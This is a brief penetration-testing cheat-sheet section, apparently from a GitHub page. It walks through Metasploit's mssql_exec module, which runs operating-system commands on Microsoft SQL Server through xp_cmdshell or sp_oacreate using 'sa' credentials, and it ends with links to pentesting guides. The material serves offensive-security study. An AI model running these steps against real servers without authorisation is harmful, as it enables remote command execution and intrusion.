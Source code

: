 #### Execute Commands

```
msf > use auxiliary/admin/mssql/mssql_exec

msf auxiliary(admin/mssql/mssql_exec) > options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOSTS                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                           yes       Technique to use for command execution (Accepted: xp_cmdshell, sp_oacreate)
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_exec) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_exec) > set username <username>

msf auxiliary(admin/mssql/mssql_exec) > set password <password>

msf auxiliary(admin/mssql/mssql_exec) > set technique <xp_cmdshell | sp_oacreate>

msf auxiliary(admin/mssql/mssql_exec) > set cmd <command> [arguments]

msf auxiliary(admin/mssql/mssql_exec) > run
```

## References

- [MSSQL for Pentester Command Execution with XP_Cmdshell](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [MSSQL for Pentester Nmap](https://www.hackingarticles.in/mssql-for-pentesternmap/)

- [MSSQL for Pentester Metasploit](https://www.hackingarticles.in/mssql-for-pentester-metasploit/)

- [Admin MSSQL Auxiliary Modules](https://www.offensive-security.com/metasploit-unleashed/admin-mssql-auxiliary-modules/)